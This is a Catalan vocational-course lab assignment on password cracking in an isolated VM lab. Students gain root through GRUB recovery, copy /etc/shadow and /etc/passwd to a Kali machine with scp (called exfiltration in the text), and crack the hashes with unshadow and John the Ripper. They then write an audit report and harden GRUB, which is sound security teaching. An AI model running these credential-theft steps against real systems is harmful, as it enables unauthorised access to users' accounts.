

# NF1AA3 Activitat Cracking de contrasenyes

## Presentació de l'activitat

La por a patir un atac informàtic és una de les principals preocupacions de qualsevol organització. La seguretat lògica és un aspecte clau per protegir la informació i els sistemes d'informació. Una de les mesures més importants per garantir la seguretat és l'ús de contrasenyes robustes i segures.

Per aquest motiu, la direcció tècnica de la consultora on esteu fent la vostra estada en empresa, encarrega al departament de sistemes fer una prova real. El vostre tutor us encomana a vosaltres fer aquesta acció de pentesting que consistirà a fer entrar en un dels servidors Linux de l'organització i posteriorment, mirar d'obtenir el màxim de contrasenyes possibles dels usuaris que hi poden iniciar sessió.



Per tant, toca posar-se en mode "hacker" i arribar a desxifrar les contrasenyes dels usuaris.

### Durada de l'activitat

Durada aproximada: 3 hores, podeu dedicar temps addicional a la documentació i a la redacció de l'informe final.

### Objectius de l'activitat

Analitzar la seguretat de les contrasenyes d'un sistema Linux, comprovant la robustesa de les claus d'accés dels usuaris i la seva resistència a atacs de força bruta i de diccionari.

### Competències treballades

j) Elaborar documentació tècnica i administrativa del sistema, complint les normes i reglamentació del sector, per al seu manteniment i l’assistència al client.
l) Assessorar i assistir al client, canalitzant a un nivell superior els supòsits que ho requereixin per trobar solucions adequades a les necessitats d’aquest.
n) Mantenir un esperit constant d’innovació i actualització en l’àmbit del sector informàtic.

### Resultats d'aprenentatge i criteris d'avaluació

RA1. Aplica mesures de seguretat passiva en sistemes informàtics descrivint característiques d'entorns i relacionant-les amb les seves necessitats.

1.1 Valora la importància de mantenir la informació segura.
1.8 Valora la importància d'establir una política de contrasenyes.

### Continguts

Seguretat lògica: gestió de contrasenyes.

## Introducció

Abans de començar, cal repassar el format de contrasenyes en Linux i presentar l'eina "John the Ripper", que s'utilitzarà per fer l'atac de "cracking" de contrasenyes.

### Linux i les contrasenyes

En els sistemes Linux, l'autenticació d'usuaris es fa amb un fitxer anomenat `/etc/passwd`, que conté informació sobre els usuaris del sistema, i un fitxer anomenat `/etc/shadow`, que conté les contrasenyes encriptades dels usuaris [1](https://www.cyberciti.biz/faq/understanding-etcshadow-file/).

Les contrasenyes no es guarden en text pla, sinó usant un algorisme de hash, que assegura que no es pugui recuperar la contrasenya original a partir del hash. A més, s'afegeix un "salt" a cada contrasenya abans de fer el hash.

Si ens centrem a la contrasenya (els camps posteriors fan referència a caducitats, canvis, etc.), l'arxiu de shadow té el següent format:

```text
# usuari:$algorisme$salt$hash:
john:$y$j9T$xEHXv4J4altGJZT5opBR01$KemHTAsjl8TCxJazsTDWbFLQp7Hqvc0sPkZrrmpayr5

# El hash usat:
$1$: MD5 (obsolet), considerat feble
$2a$ / $2y$: Blowfish / Bcrypt (utilitzat en algunes configuracions)
$5$: SHA-256 (estàndard fort i intermedi)
$6$: SHA-512 (àmpliament utilitzat per defecte en moltes distribucions modernes)
$y$: yescrypt (hashing de contrasenya adaptativa modern i altament segur)
```

### John the Ripper

És una de les eines més conegudes per fer "cracking" de contrasenyes. Té una versió de línia de comandes i una versió gràfica anomenada "Johnny". Aquesta eina pot fer diversos tipus d'atacs, com ara:

- Atacs de força bruta
- Atacs de diccionari
- Atacs bàsics
- Atacs combinatoris

Els atacs de força bruta consisteixen a provar totes les combinacions possibles donades unes condicions (conjunt de caràcters i longitud màxima). Òbviament, aquest mètode acabarà trobant la contrasenya, però el temps necessari pot arribar a ser tant llarg que sigui inviable.

El segon tipus d'atacs, els de diccionari, consisteixen a provar amb una llista de paraules (diccionari) i les seves variants. Aquest mètode és molt més ràpid que el de força bruta, però només funcionarà si la contrasenya és una paraula del diccionari o una variant d'aquesta. Existeixen multitud de diccionaris disponibles a Internet, molts d'ells com "RockYou" estan formats per contrasenyes reals que han estat filtrades en algun moment. L'eina permet definir variants sobre les paraules del diccionari, com ara afegir números al final, substituir lletres per números, per augmentar les possibilitats de trobar la contrasenya.

L'atac bàsic, consisteix a provar coses tant òbvies com contrasenyes que coincideixin amb el nom d'usuari, contrasenyes buides, etc. Pot semblar un atac molt bàsic, però en molts casos funciona.

Per últim, l'atac combinatori consisteix a combinar paraules del diccionari per formar contrasenyes més llargues. Aquest mètode és molt més lent que l'atac de diccionari, però pot ser útil si la contrasenya és una combinació de paraules (passphrase).

## Descripció de l'activitat

Teniu a la Comuna una màquina OVA que conté la màquina virtual (Ubuntu Server) de la qual necessitem saber les contrasenyes dels usuaris que hi poden iniciar sessió. Per aconseguir aquest objectiu, caldrà fer un atac en dues fases:

1. Aconseguir accés a la màquina virtual com administrador (root) per poder descarregar-nos els arxius necessaris per poder fer l'atac: `/etc/shadow` i `/etc/passwd`.

2. Amb aquests dos arxius i usant la distribució de seguretat [Kali Linux](https://www.kali.org/), aconseguir les contrasenyes dels usuaris. Per fer-ho, usarem "John the Ripper", en concret amb l'eina gràfica "Johnny".

3. Un cop aconseguides les contrasenyes, verificarem que podem iniciar sessió amb els usuaris i les contrasenyes obtingudes.

### Configuració de l'escenari

El primer que caldrà fer, serà importar la màquina virtual OVA a la vostra màquina física, la interfície de xarxa ha d'estar en "xarxa NAT", d'aquesta manera podreu comunicar la màquina virtual objectiu amb la màquina Kali.

A continuació, cal que instal·leu Kali Linux [2](https://www.kali.org/docs/virtualization/install-virtualbox-guest-vm/) en una màquina virtual, també amb la interfície de xarxa en "xarxa NAT".

> A un escenari real, un cop tenim accés a la màquina víctima, copiaríem els dos arxius a una unitat extraïble, de manera que el procés de desxifrat de les contrasenyes el faríem al nostre equip fora de la organització.

### Accés a la màquina virtual

1. Reinicia la màquina virtual Ubuntu Server i aconsegueix accedir com a root. Usa la guia que trobaràs al segon enllaç [3](https://waytoit.wordpress.com/2013/06/06/recuperando-password-en-ubuntu/) de la secció "Recursos" per aconseguir-ho.

2. Com es tracta d'un servidor Linux al qual els usuaris hi poden accedir remotament via SSH, aquest serà el mecanisme que usarem per exfiltrar la informació crítica. Una altra opció seria copiar els arxius a una unitat extraïble.

3. Copia usant la comanda `scp` els arxius `/etc/shadow` i `/etc/passwd` a la màquina Kali. Per exemple:

   ```bash
   scp /etc/shadow user@kali_ip:.
   scp /etc/passwd user@kali_ip:.
   ```

Assegura't de substituir `user` per l'usuari de Kali i `kali_ip` per la IP de la màquina Kali.

> 💡Fixeu-vos que teniu **control total** de la màquina, ja que esteu accedint com a `root`. És un bon recordatori de la importància de la seguretat en diverses capes, simplement protegir amb contrasenya no seria suficient. Caldria aplicar capes adicionals com:
>
> - Control d'accés físic a la màquina.
> - Protegir el GRUB amb contrasenya per evitar aquest atac tant senzill [4](https://soloconlinux.org.es/securizando-grub/).

### Cracking de les contrasenyes

Ara ja tenim els arxius a la màquina Kali i es pot començar a preparar l'atac. A l'arxiu [guia_john.md](guia_john.md) trobareu una guia pas a pas de com fer-ho amb John the Ripper.

1. Convertim els dos arxius en un sol arxiu estàndard de contrasenyes amb la comanda:

   ```bash
   unshadow passwd shadow > passwords-nomcognom
   ```

2. Un cop tenim l'arxiu és moment d'usar "john" (terminal) o "johnny" (gràfic) per realitzar l'atac:

   - Comença pel mode bàsic
   - A continuació prova amb el mode de diccionari, usant el diccionari rockyou que Kali ja incorpora. Si no aconsegueixes res, prova amb altres diccionaris que puguis trobar a Internet.
   - Finalment, provarem força bruta, però limitant l'espai de cerca a caràcters numèrics (0-9) i definint una longitud mínima i màxima, en aquest cas 4 a 8 dígits.

Veuràs que quan hi troba un resultat te'l mostra pel terminal, i també el guarda en un fitxer anomenat `john.pot` a la carpeta de l'usuari.

### Redacció de l'informe d'auditoria

1. Documenta el procediment seguit per aconseguir l'accés a la màquina víctima i la descàrrega (transferència) dels arxius necessaris per fer l'atac.

2. Fes una relació dels usuaris i les seves contrasenyes trobades i dels usuaris als que no ha estat possible obtenir la contrasenya. Indica quins mètodes d'atac s'han fet servir per aconseguir-ho i perquè les contrasenyes trobades han estat vulnerables.

3. Planteja mesures de millora de la seguretat de l'equip a nivell lògic per evitar que un atacant real pugui replicar el mateix atac i per establir una política de contrasenyes segures.

### Activitat extra protegint el GRUB amb contrasenya

Si acabes abans de temps, se't proposa una activitat extra de millora de la seguretat de la màquina víctima. Consisteix a protegir el GRUB amb contrasenya, de manera que un atacant no pugui accedir a la màquina com a root i copiar-se els arxius necessaris per fer l'atac.

Documenta el procediment per fortificar l'accés al GRUB de manera que qualsevol intent d'accedir a les opcions d'arrencada del sistema requereixi una contrasenya. Pots utilitzar la guia que trobaràs a l'enllaç [4](https://soloconlinux.org.es/securizando-grub/).

Aquesta part no és obligatòria i **només es pot fer a classe** cas que **hagis acabat abans l'activitat**. La seva valoració serà de 0 a 1 punt addicional a la nota final de la unitat.

## Enllaços d'interès

1.[nixCraft: Understanding /etc/shadow file format on Linux](https://www.cyberciti.biz/faq/understanding-etcshadow-file/)

2.[Kali Docs: Kali inside VirtualBox (Guest VM)](https://www.kali.org/docs/virtualization/install-virtualbox-guest-vm/)

3.[WaytoIT Blog: Recuperando password en Ubuntu](https://waytoit.wordpress.com/2013/06/06/recuperando-password-en-ubuntu/)

4.[SoloConLinux: Securizando GRUB](https://soloconlinux.org.es/securizando-grub/)

5.[John the Ripper: Official Documentation](https://www.openwall.com/john/doc/)
